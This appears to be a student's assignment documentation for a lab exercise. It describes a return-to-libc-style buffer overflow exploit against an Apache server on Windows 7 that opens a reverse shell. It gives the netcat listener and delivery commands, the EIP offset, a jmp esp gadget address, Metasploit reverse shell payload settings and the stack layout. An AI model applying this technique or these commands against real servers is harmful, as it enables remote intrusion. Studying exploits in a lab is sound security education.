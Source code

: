 # Assignment 2 Documentation

## Running the exploit
The exploit is configured to generate a reverse shell for a listener on port 8888 at 192.168.219.134. To run the exploit, ensure the attacking machine is listening on the appropriate port:
```
nc -l -p 8888 -nvv
```
Then the exploit can be run by piping the executed script to the victim machine Apache server:
```
perl exploit_apache.pl | nc <victim_address> 80
```
*Note that the Apache server is listening on port 80.*

## Objective and description of the exploit
The objective of this exploit is to execute a buffer overflow attack on a Windows machine running an Apache web server. The Windows machine supports ASLR, and in particular randomizes the addresses of the stack, so we cannot rely on knowing the stack addresses in advance. Therefore, we use a return to libc attack to redirect execution to an area on the stack containing our code. Rather than placing the shell code at a known address above the EIP, it will be placed just after the saved EIP. The EIP will be overwritten by the address of a `jmp esp` instruction, which when executed, will begin executing the malicious code.

## Determining the length of the buffer
The length of the buffer was determined by sending a string of sufficient length to the Apache server to crash it and gather debug data. Metasploit was used to generate a string of 5,000 bytes using `msf-pattern_create -l 5000`. The WinDbg debugger was attached to the Apache process and the string was sent to the server, causing a segmentation fault. When this occurred the EIP was 67463467, which corresponds to an offset of 4,093 bytes. Thus, if we send a string of length 4,097 bytes we can overwrite the EIP with the last 4 bytes.

## Finding a `jmp esp` instruction
Modules loaded by Apache were searched for a `jmp esp` instruction in WinDbg using `s <start_address> L? <length_to_search> ff e4`. Since Windows 7 supports ASLR, only modules without ASLR or DEP were searched. A `jmp esp` instruction was found in `mod_w1_20` at location `0x1005bc0f`, which does not contain any null bytes and can thus be used in the payload.

## Generating the payload
Metasploit was used to generate shell code for a reverse shell using `payload/windows/shell_reverse_tcp` with the `x86/alpha_mixed` encoder, `LHOST=192.168.219.134`, and `LPORT=8888`. A NOP sled was used to cover the length of the offset, though since we are not redirecting execution here, any non-null byte sequence would work. The address of the `jmp esp` instruction was placed to overwrite the EIP, and this was followed by a small NOP sled of 20 bytes. This smaller NOP sled is used because 1) the caller will clear the arguments after the function returns so we cannot place the shell code directly after the EIP, and 2) to make the exploit more reliable when it is run by providing a small margin or error. To prevent the decoder from corrupting itself during execution, we also place an instruction to add -200 to the current ESP, effectively moving it out of the way of the payload. Finally, the payload is placed just after this instruction. Thus, the stack is set up in a manner similar to the below figure.

|                                     |                                   |
| :---------------------------------: | :-------------------------------: |
| Lower memory addresses              |                                   |
| ...                                 | NOP sled (4,093 bytes)            |
| EIP                                 | `\x0f\xbc\x05\x10` (`jmp esp` address) |                  |
| EIP + 4                             | `\x90`                              |
| ...                                 | `\x90`                              |
| EIP + 20                            | `\x90`                              |
| EIP + 24                            | `\x81\xc4\x38\xff\xff\xff` (`add -200, esp`) |          |
| ...                                 | Shellcode                         |
| Higher memory addresses             |                                   |

![Running the exploit](./running_exploit.png)

![Obtaining a reverse shell](./reverse_shell.png)
